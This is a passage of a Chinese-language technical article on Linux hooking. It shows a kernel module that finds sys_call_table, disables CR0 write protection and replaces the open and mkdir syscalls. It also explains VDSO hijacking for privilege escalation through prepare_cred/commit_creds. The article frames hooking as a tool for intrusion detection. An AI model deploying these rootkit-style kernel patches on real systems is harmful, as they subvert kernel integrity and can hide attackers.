                table_addr=(void*)tmp_table;

                break;
        }

        offset += sizeof(void *);
    }
    
    return table_addr;
}

static int patch_init(void)
{
    int ret=0;
    //sys_call_table=(void**)kallsyms_lookup_name("sys_call_table");
    //get_sysentry_addr();
    sys_call_table=(void**)aquire_sys_call_table((void*)PAGE_OFFSET);
    printk("sys_call_table addr:%p\n",sys_call_table);
    if(sys_call_table)
    {
        int cr0 = 0;
        old_open_func=(open_t)sys_call_table[__NR_open];
        
        old_mkdir_func=(mkdir_t)sys_call_table[__NR_mkdir];

        if(!old_open_func || ((int)old_open_func % sizeof(void*)))
        {
            printk("!sys_open\n");
            ret=-1;
        }else
        {
            cr0=wpoff_cr0();
            sys_call_table[__NR_open]=(open_t)fake_sys_open;
            sys_call_table[__NR_mkdir]=(mkdir_t)fake_sys_mkdir;
            set_cr0(cr0);

            printk(KERN_ALERT "sys_open is patched!\n");
        }
    }else
    {
        printk("no sys call table found\n");
        ret=-1;
    }
    return ret;
}

static void patch_cleanup(void)
{
    if(sys_call_table[__NR_open]==fake_sys_open)
    {
        int cr0 = 0;
        cr0=wpoff_cr0();
        sys_call_table[__NR_open]=old_open_func;
        set_cr0(cr0);

        printk(KERN_ALERT "sys_open is unpatched!\n");
    }

    if(sys_call_table[__NR_mkdir]==fake_sys_mkdir)
    {
        int cr0 = 0;
        cr0=wpoff_cr0();
        sys_call_table[__NR_mkdir]=old_mkdir_func;
        set_cr0(cr0);

        printk(KERN_ALERT "sys_mkdir is unpatched!\n");
    }
}

module_init(patch_init);
module_exit(patch_cleanup);
```

使用`sys_call_table` replace hook的技术方案，需要特别注意的技术点是

```
1. 要保证replace hook的动作的原子性，即要避免sys_call_table被替换了，但是对应的hook_function没有装载到位，这个时候用户态发起的系统调用就会掉入一个无效内存地址
//linux的LKM模块加载机制会保证这一点，在执行init_module函数之前，linux lkm loader已经将lkm中用到的函数加载到了内核内存中了

2. 在执行rmmod模块的时候，需要将之前被replace hook的sys_call_table的函数指针替换回来，保证系统替换前后的状态一致性

3. sys_call_table在恢复hook的时候需要使用"引用计数"，因为这个时候有可能有其他的进程是通过被我们劫持后的fake_function流程进入内核原始系统调用的，这些系统调用例如sys_socketcall的select动作，是一个阻塞型的系统调用，用户态会一直阻塞等待这次系统调用的返回，如果我们不等到引用计数降到0(即没人在使用)之后，而是采取直接卸载模块，会导致那些系统调用返回后，回到一个被释放掉的内核内存区域中
//使用"引用计数"会带来另一个问题，系统调用中有一些例如socket select这种阻塞性的系统调用，从用户态发起系统调用到最后从内核态返回会经历一个很长的时间，此时模块的引用计数会一直处于大于零的状态，而无法卸载
```



为了解决这个问题，我们的内核模块需要能够实现以下目标

```
1. 模块的sys_call_table hook能够针对单个function hook point做细粒度的开关
2. sys_call_table hook的replace、restore动作要能够"原子实现"，保证操作系统的系统调用流能无缝的进行切换
3. 解决rmmod模块卸载过程中的阻塞型系统调用未返回问题，使用push、ret方式构造特殊的栈空间(下面画图详细说明)
```



### 9: Linux LSM(Linux Security Modules) Hook技术

### 10：VDSO劫持

1. VDSO技术原理

VDSO（Virtual Dynamically-linked Shared Object）是一个用于提升系统性能的机制，它将内核态的调用映射到用户态的地址空间中，使得调用开销更小。

为什么会有这项技术呢？这个要从操作系统提供的系统快速调用说起。

拿x86下的系统调用举例, 传统的系统调用由”int 0x80中断“触发，CPU的上下文切换比较慢。为此，Intel和AMD分别实现了sysenter，sysexit和syscall，sysret，即所谓的快速系统调用指令, 使用它们更快，但是同时也带来了兼容性的问题。

于是Linux实现了vsyscall，程序统一调用vsyscall，具体的底层选择哪个系统调用由内核来决定。而vsyscall的实现就在VDSO中。

Linux(kernel 2.6 or upper)环境下执行ldd /bin/sh, 会发现有个名字叫linux-vdso.so.1（老点的版本是linux-gate.so.1）的动态文件，而系统中却找不到它，它就是VDSO。例如:



VDSO本质上是一段内核空间的代码，用来提供给用户态下更快地调用系统调用。攻击者可以通过内核驱动对这块内存空间进行地质修改，以此达到apihook的目的。本质上和syscall table hook是一样的。

内核态下VDSO页的权限是RW，这个代码页会被直接映射到用户态下的进程中，以满足gettime等频繁系统调用的速度。这个代码页映射到用户态的权限属性是RX，就是可以执行。所以，我们可以通过在内核态下通过任意写来修改VDSO的代码，譬如我们修改代码成为`prepare_cred+commited_cred`等，这样在用户调用VDSO时，就可以劫持控制流了。

## 四. 后记

Hook技术是进行主动防御、动态入侵检测的关键技术，从技术上来说，目前的很多Hook技术都属于"猥琐流"，即：

  * 通过"劫持"在关键流程上的某些函数的执行地址，在Hook函数执行完之后，再跳回原始的函数继续执行(做好现场保护)

  * 或者通过dll、进程、线程注入比原始程序提前获得CPU执行权限

但是随着windows的PatchGuard的出现，这些出于"安全性"的内核patct将被一视同仁地看作内核完整性的威胁者

更加优美、稳定的方法笔者认为应该是:

注册标准的回调方法，包括:

  * 进程

  * 线程

  * 模块的创建

  * 卸载回调函数

  * 文件/网络等各种过滤驱动

内核提供的标准处理流程Hook点

  * kprobe机制

网络协议栈提供的标准Hook点

  * netfilter的链式处理流程
